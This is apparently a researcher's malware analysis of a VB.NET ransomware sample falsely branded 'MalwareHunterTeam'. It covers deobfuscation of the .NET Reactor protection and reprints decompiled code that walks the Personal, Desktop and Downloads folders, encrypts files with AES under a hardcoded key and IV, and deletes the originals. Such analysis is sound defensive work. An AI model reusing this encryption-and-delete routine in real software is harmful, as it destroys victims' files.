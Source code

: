 # MalwareHunterTeam Ransomware

* [Version at ANY.RUN](https://app.any.run/tasks/d4db56ce-d243-4850-a479-93a9c9dcdb4a)
* [VT Link](https://www.virustotal.com/gui/file/9012a3958219ec427b9b447dffca591b19cb4097f3bb89acc1389c4da59f6dfe)
* [VT Link Deobfuscation](https://www.virustotal.com/gui/file/9012a3958219ec427b9b447dffca591b19cb4097f3bb89acc1389c4da59f6dfe)


<blockquote class="twitter-tweet" data-media-max-width="960"><p lang="zxx" dir="ltr"><a href="https://t.co/j4Ty5K2wUi">pic.twitter.com/j4Ty5K2wUi</a></p>&mdash; petikvx (@petikvx) <a href="https://twitter.com/petikvx/status/1770543961318273431?ref_src=twsrc%5Etfw">March 20, 2024</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

## File Informations

This ransomware is written in VB.NET and is protected with the .NET Reactor tool.

The malware makes it appear as if it was authored by our colleagues MalwareHunterteam ([https://malwarehunterteam.com/](https://malwarehunterteam.com) - [https://twitter.com/malwrhunterteam](https://twitter.com/malwrhunterteam)), but it is not the case.

We will thus use [NETReactorSlayer](https://github.com/SychicBoy/NETReactorSlayer) to deprotect it.

Here are the results before and after with [Detect-It-Easy](https://github.com/horsicq/Detect-It-Easy)

```
petik@win:test$ diec MalwareHunterTeam.exe
/home/petik/test/MalwareHunterTeam.exe:
PE32
    Protector: .NET Reactor(4.8-4.9)[-]
    Library: .NET(v4.0.30319)[-]
    Compiler: VB.NET(-)[-]
    Linker: Microsoft Linker(6.0)[GUI32]

petik@win:test$ diec MalwareHunterTeam_Slayed.exe:
PE32
    Library: .NET(v4.0.30319)[-]
    Compiler: VB.NET(-)[-]
    Linker: Microsoft Linker(6.0)[GUI32]
```

We now have a better understanding of the code :

![deobfuscation](/images/mhunter/deobfuscation.png)

## Operation of the malware

The malware will scan the following folders:
Personal
Desktop
Downloads

```
Private Sub Form1_Load(sender As Object, e As EventArgs)
	Try
		Me.method_0(Environment.GetFolderPath(Environment.SpecialFolder.Personal))
	Catch ex As Exception
	End Try
	Try
		Me.method_0(Environment.GetFolderPath(Environment.SpecialFolder.Desktop))
	Catch ex2 As Exception
	End Try
	Try
		Me.method_0(Environment.GetEnvironmentVariable("UserProfile") + "\Downloads")
	Catch ex3 As Exception
	End Try
	Class2.Class3_0.Middleman.Show()
End Sub
```

It will look for files in the directory except those with the following extensions in order not to disrupt the system :
".exe", ".dll", ".scr", ".com", ".pif", ".ini", ".log", ".sys", ".drv", ".xml", ".dat", ".reg"

``` 
Private Sub method_0(string_0 As String)
	For Each string_ As String In Directory.GetFiles(string_0)
		If Not Me.method_1(string_) Then
			Me.method_2(string_)
		End If
	Next
	For Each string_2 As String In Directory.GetDirectories(string_0)
		Me.method_0(string_2)
	Next
End Sub

' Token: 0x06000030 RID: 48 RVA: 0x00002AFC File Offset: 0x00000CFC
Private Function method_1(string_0 As String) As Boolean
	Dim source As IEnumerable(Of String) = New String() { Form1.newExtension, ".exe", ".dll", ".scr", ".com", ".pif", ".ini", ".log", ".sys", ".drv", ".xml", ".dat", ".reg" }
	Dim extension As String = Path.GetExtension(string_0)
	Return source.Contains(extension)
End Function
```

Then we have :

```
Private Sub method_2(string_0 As String)
	Try
		If New FileInfo(string_0).Length <= 104857600L Then
			Dim path As String = string_0 + Form1.newExtension
			Using aes As Aes = Aes.Create()
				aes.Key = Form1.byte_0
				aes.IV = Form1.byte_1
				Using fileStream As FileStream = New FileStream(string_0, FileMode.Open)
					Using fileStream2 As FileStream = New FileStream(path, FileMode.Create)
						Using cryptoTransform As ICryptoTransform = aes.CreateEncryptor(aes.Key, aes.IV)
							Using cryptoStream As CryptoStream = New CryptoStream(fileStream2, cryptoTransform, CryptoStreamMode.Write)
								fileStream.CopyTo(cryptoStream)
							End Using
						End Using
					End Using
				End Using
			End Using
			File.Delete(string_0)
		End If
	Catch ex As Exception
	End Try
End Sub

' Token: 0x04000010 RID: 16
Public Shared newExtension As String = ".malwarehunterteam"

' Token: 0x04000011 RID: 17
Private Shared byte_0 As Byte() = New Byte() {1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32}

' Token: 0x04000012 RID: 18
Private Shared byte_1 As Byte() = New Byte() {33, 34, 35, 36, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48}

```

This code performs the following operations:

1.  Checks if the size of the file specified by the path `string_0` is less than or equal to 104857600 bytes (100 MB).
2.  If the file size is less than or equal to this limit, the code:
    -   Concatenates an extension specified by `Form1.newExtension` to `string_0` to form a new path `path`. (file.jpg => file.jpg.malwarehunterteam)
    -   Initializes an AES object for symmetric encryption.
    -   Configures the key and initialization vector (IV) for AES using values specified by `Form1.byte_0` and `Form1.byte_1`.
    -   Opens a read stream on the source file specified by `string_0`.
    -   Opens a write stream on the destination file specified by `path`.
    -   Creates an encryption transformer using the AES key and IV.
    -   Creates a crypto stream for writing encrypted data to the destination file.
    -   Copies data from the read stream to the crypto stream to encrypt it.
    -   Deletes the source file after encryption.
3.  The `Catch` block catches any exceptions and ignores them.

In summary, this code encrypts a file using AES if its size is less than or equal to 100 MB, using specified key and IV, and then deletes the source file once encryption is complete.